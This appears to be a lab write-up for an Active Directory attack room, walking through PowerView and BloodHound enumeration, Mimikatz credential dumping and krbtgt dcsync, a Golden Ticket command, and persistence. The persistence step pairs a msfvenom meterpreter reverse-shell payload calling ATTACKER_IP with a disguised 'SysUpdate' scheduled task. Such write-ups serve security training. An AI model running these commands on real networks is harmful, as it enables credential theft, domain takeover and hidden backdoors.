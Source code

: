 ### Task 1 — Introduction / Deploy the Machine
**Answer:** Machine deployed and running.  
**Target IP:** `10.201.118.160`  
**Proof:** `ping` / `nmap` output saved in `screenshots/nmap_initial.png` (or paste output snippet).

---

### Task 2 — Enumeration w/ Powerview
**Question:** Use PowerView to enumerate the domain and find interesting hosts/users.  
**Answer / Findings (example):**
- Domain: `CORP.LOCAL`  
- Domain Controller: `DC01.CORP.LOCAL`  
- Notable user: `svc_backup` (service account)  
- Writable share: `\\WIN-SERVER\Backups`  
**Commands / Proof:**
```shell
Get-NetDomainController
Get-NetUser -Domain CORP.LOCAL
Invoke-ShareFinder
```

---

### Task 3 — Enumeration w/ Bloodhound
**Question:** Collect BloodHound data.  
**Answer:** Collected via SharpHound (`bloodhound.zip`) and imported into BloodHound. Found paths to Domain Admins via ACLs on machine `FILESERVER`.  
**Commands / Proof:**
```shell
Invoke-BloodHound -CollectionMethod All -ZipFileName bloodhound.zip
```
- copied bloodhound.zip to AttackBox and imported to BloodHound GUI

---

### Task 4 — Dumping hashes w/ mimikatz
**Question:** Dump credentials and identify secrets.  
**Answer / Findings (example):**
- Found plaintext creds for `svc_backup` or an account with higher privileges (paste trimmed output).  
**Commands / Proof:**
```shell
privilege::debug
sekurlsa::logonpasswords
lsadump::dcsync /domain:CORP.LOCAL /user:krbtgt
```

---

### Task 5 — Golden Ticket Attacks w/ mimikatz
**Question:** Demonstrate Golden Ticket basics (lab).  
**Answer / Findings (example):**
- Retrieved `krbtgt` hash and created a Golden Ticket to impersonate `Administrator@CORP.LOCAL` (lab-only).  
**Proof / Commands (high-level):**
```shell
extracted krbtgt with lsadump::dcsync
used mimikatz kerberos::golden /domain:CORP.LOCAL /user:administrator /sid:S-1-5-21-... /krbtgt:KRBTGT_HASH /rc4:KRBTGT_HASH ... (lab only)
validated by running whoami /groups and accessing domain resources requiring Domain Admin
```
---

### Task 6 — Enumeration w/ Server Manager
**Question:** Enumerate local server roles and services.  
**Answer / Findings (example):**
- Installed roles: `File Server`, `Backup` service running as `svc_backup`.  
- Found scheduled tasks referencing a backup script with a config file containing creds.  
**Commands / Proof:**
```shell
Get-WindowsFeature | Where Installed
schtasks /query /v /fo LIST
type C:\Scripts\backup_config.txt # (if found)
```

---

### Task 7 — Maintaining Access
**Question:** Set up a persistence/backdoor (lab only).  
**Answer / Method (example):**
- Created a `persistence` meterpreter that reconnects to AttackBox and registered it as a scheduled task / service.  
**Commands / Proof:**
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o persist_payload.exe

created scheduled task to run persist_payload.exe every 5 minutes (lab only)
schtasks /create /sc minute /mo 5 /tn "SysUpdate" /tr "C:\Windows\Temp\persist_payload.exe"
```

---

### Task 8 — Conclusion
**Answer / Summary:**  
- Enumerated domain with PowerView and BloodHound.  
- Dumped credentials via Mimikatz (found `krbtgt` hash).  
- Demonstrated (lab) Golden Ticket creation and persistence.  
- Recommendations: restrict replication rights, rotate `krbtgt`, implement credential protections (LSA hardening, Credential Guard), limit local admin access, monitor scheduled tasks and service binaries.

---

## Evidence & files
- `screenshots/`:
  - `nmap_initial.png`
  - `powerview_enum.png`
  - `bloodhound_path.png`
  - `mimikatz_dump.png`
  - `golden_ticket_success.png`
  - `persistence_task.png`

